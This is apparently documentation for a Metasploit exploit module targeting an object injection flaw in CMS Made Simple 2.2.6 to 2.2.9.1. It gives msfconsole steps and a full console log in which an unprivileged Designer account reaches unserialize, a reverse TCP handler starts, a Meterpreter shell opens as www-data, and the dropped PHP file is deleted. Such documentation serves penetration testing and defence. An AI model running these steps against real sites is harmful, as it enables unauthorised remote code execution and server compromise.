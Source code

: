 ## Description

This module exploits an object injection vulnerability on files action.admin_bulk_template in DesignManager module (that is installed by default from CMS Made Simple). With an unprivileged user with Designer permission, it is possible reach an unserialize function with a crafted value in the m1_allparms parameter that lead in a RCE.

Tested on CMS Made Simple 2.2.6, 2.2.7, 2.2.8, 2.2.9 and 2.2.9.1.

## Vulnerable Application

Affecting CMS Made Simple, version 2.2.6, 2.2.7, 2.2.8, 2.2.9, 2.2.9.1

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. [OPTIONALLY] setting up a new user, assign it to a group and set the *Designer* permissions on group
3. Start `msfconsole`
4. `use exploit/multi/http/cmsms_object_injection_rce`
5. `set RHOST <IP>`
6. `set USERNAME <USERNAME>`
7. `set PASSWORD <PASSWORD>`
8. `check`
9. You should see `The target appears to be vulnerable.`
10. `exploit`
11. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on CMS Made Simple (CMSMS) 2.2.8

```
msf5 > use exploit/multi/http/cmsms_object_injection_rce
msf5 exploit(multi/http/cmsms_object_injection_rce) > set rhosts target.com
rhosts => target.com
msf5 exploit(multi/http/cmsms_object_injection_rce) > check
[*] 192.168.1.64:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_object_injection_rce) > set username daniele
username => daniele
msf5 exploit(multi/http/cmsms_object_injection_rce) > set password qwerty
password => qwerty
msf5 exploit(multi/http/cmsms_object_injection_rce) > set targeturi /cmsms/
targeturi => /cmsms/
msf5 exploit(multi/http/cmsms_object_injection_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.64:4444
[*] Sending stage (38247 bytes) to 192.168.1.64
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.64:41308) at 2019-11-01 11:15:57 +0100
[+] Deleted RsjeISeAu.php

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.1.64 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_object_injection_rce) > 
```
